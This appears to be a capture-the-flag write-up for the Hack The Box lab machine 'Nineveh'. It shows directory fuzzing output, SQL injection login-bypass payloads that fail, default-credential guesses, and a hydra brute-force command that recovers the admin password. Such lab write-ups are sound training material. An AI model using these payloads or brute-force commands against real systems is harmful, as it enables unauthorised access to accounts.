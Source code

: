 ## TCP/80 (HTTP)
### FFUF - directory-2.3-medium.txt
```
┌──(root💀kali)-[~/htb/nineveh]
└─# ffuf -u http://nineveh.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

200      GET        5l       25w      178c http://10.10.10.43/index.html
200      GET      977l     5005w        0c http://10.10.10.43/info.php
301      GET        9l       28w      315c http://10.10.10.43/department => http://10.10.10.43/department/
403      GET       11l       32w      299c http://10.10.10.43/server-status
```
- `department`

## TCP/443 (HTTPS)
### FFUF - directory-2.3-medium.txt
```
200      GET        1l        3w       49c https://10.10.10.43/index.html
301      GET        9l       28w      309c https://10.10.10.43/db => https://10.10.10.43/db/
403      GET       11l       32w      300c https://10.10.10.43/server-status
301      GET        9l       28w      319c https://10.10.10.43/secure_notes => https://10.10.10.43/secure_notes/
```
- `secure_notes`
- `db`

# Initial Foothold
## TCP/80 (HTTP) - Bruteforce Login
1. Proceed to `http://nineveh.htb/department`, there is a login page
2. Attempt SQLi Auth Bypass, failed!
	```
	# Payload
	' OR 1=1#
	' OR 1=1 -- -
	```
3. Attempt default creds, noticed something interesting
	```
	# Default Creds
	admin:admin
	admin:password
	```
	![]({{ page.img_path }}Pasted%20image%2020220823235518.png)
	- It tells us that the password is invalid, meaning the username `admin` is valid
4. Bruteforce w/ `hydra`
	```
	┌──(root💀kali)-[~/htb/nineveh]
	└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!"  -VI
	...
	[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
	```
	- `admin:1q2w3e4r5t`
5. Login w/ `admin:1q2w3e4r5t`
